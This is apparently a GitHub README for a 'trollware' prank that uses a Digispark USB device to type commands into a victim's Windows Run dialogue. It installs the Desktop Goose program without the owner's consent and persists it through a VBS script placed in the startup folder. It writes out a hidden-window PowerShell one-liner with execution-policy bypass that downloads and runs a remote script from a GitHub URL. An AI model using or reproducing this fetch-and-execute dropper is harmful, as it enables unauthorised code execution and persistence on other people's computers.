# Goose Trollware
Goose program prank install wrapper for digispark. Keeping the link short for speed of exploit. 

See here for the original program https://desktop-goose.en.uptodown.com/windows

My code is intended to allow a digispark to plug in, quickly type the initial payload, and unplug while the code sets up the rest in the background.

The intent is to create a startup wrapper, placing it in the shell:startup folder. 

---

`i.ps1`: The install script run by the digispark

`run.vbs`: The vbs script copied to the autostartup folder.

---

To run, just have a digispark run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/smcbride-ca/G/raw/test/i.ps1').Content"` in the Run Dialogue. Later I may make the initial script rerun the main script as a hidden window.